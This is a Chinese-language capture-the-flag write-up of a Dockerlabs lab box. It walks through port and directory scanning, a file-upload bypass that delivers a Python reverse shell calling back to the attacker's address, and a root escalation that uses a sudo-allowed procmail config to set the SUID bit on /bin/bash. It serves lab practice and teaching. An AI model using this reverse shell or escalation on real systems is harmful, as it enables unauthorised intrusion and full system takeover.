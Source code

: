 ```yaml
---
title: "Dockerlabs-Chatme"
date: 2025-02-25
categories: 
  - "dockerlabs"
tags: 
  - "dockerlabs"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/chatme  
❯ nmap 172.17.0.2 -sV  -A
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-24 19:54 CST
Nmap scan report for 172.17.0.2
Host is up (0.000088s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: ChatMe - The Best Online Chat Solution
|_http-server-header: nginx/1.24.0 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.09 ms 172.17.0.2
```

网页中存在**chat.chatme.dl**，将其添加到**/etc/hosts**

## Gobuster

```
[root@kali] /home/kali/chatme  
❯ gobuster dir -u "http://chat.chatme.dl/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php  --exclude-length 0
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://chat.chatme.dl/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          0
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 1891]
/uploads              (Status: 301) [Size: 178] [--> http://chat.chatme.dl/uploads/]
/index2.php           (Status: 200) [Size: 5769]
/chat.php             (Status: 200) [Size: 2]
/upload.php           (Status: 200) [Size: 147]
/css                  (Status: 301) [Size: 178] [--> http://chat.chatme.dl/css/]
/js                   (Status: 301) [Size: 178] [--> http://chat.chatme.dl/js/]
/LICENSE              (Status: 200) [Size: 35147]
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```

## Upload

尝试上传一个木马，发现后缀名被修改为了**PNG**

![](./images/image-148.png)

这里没什么思路，看了一下题解，发现**.pyz**没有被过滤，并且Whatsapp里面存在一个漏洞

- [https://github.com/r000t1ng/Reverse-Shell-Whatsapp](https://github.com/r000t1ng/Reverse-Shell-Whatsapp)

```
import socket, subprocess, os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.17.0.1", 100))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(["/bin/sh", "-i"])
```

制作**pyz**文件，然后监听

```
python -m zipapp reverse_shell.py -o reverse_shell.pyz
```

![](./images/image-149.png)

## Root

查看**sudo**命令

```
$ sudo -l
Matching Defaults entries for system on 762518b8eb29:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User system may run the following commands on 762518b8eb29:
    (ALL : ALL) NOPASSWD: /usr/bin/procmail
```

在**GTFObins**中并没有收集

但是可以创建配置文件然后指定：[procmail - Unix, Linux Command](https://www.tutorialspoint.com/unix_commands/procmail.htm#6)

```
TMPFILE="/tmp/pwned2.txt"

:0
| touch $TMPFILE; chmod u+s /bin/bash
```

然后执行

```
$ echo "123" | sudo /usr/bin/procmail -m ./config
$ /bin/bash -p
whoami
root
```

## Summary

`User`：卡在了文件上传的那一步，题目也没有哪里暗示了是**Whatsapp**，看了其他的解才知道。

`Root`：就是引用危险配置文件，写入提权的代码。
